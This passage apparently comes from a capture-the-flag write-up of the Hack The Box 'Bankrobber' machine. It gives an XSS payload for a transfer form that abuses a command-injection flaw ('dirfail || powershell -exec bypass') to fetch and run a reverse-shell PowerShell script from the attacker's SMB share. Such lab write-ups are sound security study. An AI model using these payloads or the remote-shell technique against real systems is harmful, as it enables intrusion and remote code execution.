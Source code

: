 This can be exploited with a modified [nishang Invoke-PowershellTCP.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to gain a reverse shell.

## Foothold and user flag
In order to do so I'll use the XSS vulnerability in teh E-coin transfer form to call backdoorchecker.php and use it to load the modified PowerShell script to memory and execute it.

In my working directory I've created another directory to host and smb file share containing the PowerShell script using Impacket's smbserver tool.
```
impacket-smbserver -smb2support test 'pwd'
```

I also start an ncat listener on port 443 that will catch the reverse shell conenction.

I then use Burp to modify an E-coin transfer request and add the following XSS script as the contents of the comment field, and pass it through to the webserver.
```
<script>var xh;if (window.XMLHttpRequest){xh=new XMLHttpRequest()}else{xh=new ActiveXObject("Microsoft.XMLHTTP")};xh.open("POST","/admin/backdoorchecker.php");xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xh.send("cmd=dirfail || powershell -exec bypass -f \\\\10.10.14.51\\test\\shellme.ps1");</script>
```

![burprequest_reverseshell](/assets/images/HTB/Bankrobber/burprequest_reverseshell.jpg)

Which then calls backdoorchecker.php and passes the following command for it to execute:
```
dirfail || powershell -exec bypass -f \\\\10.10.14.51\\test\\shellme.ps1
```

Since "dirfail" will just fail to do anything, it will then pass to call on PowerShell to execute the shellme.ps1 script while allso temporarily bypassing the PowerShell execution policy (that usually stops scripts from executing).

Shortly after the request from Burp goes through, the smb file share gets a connection from the webserver.
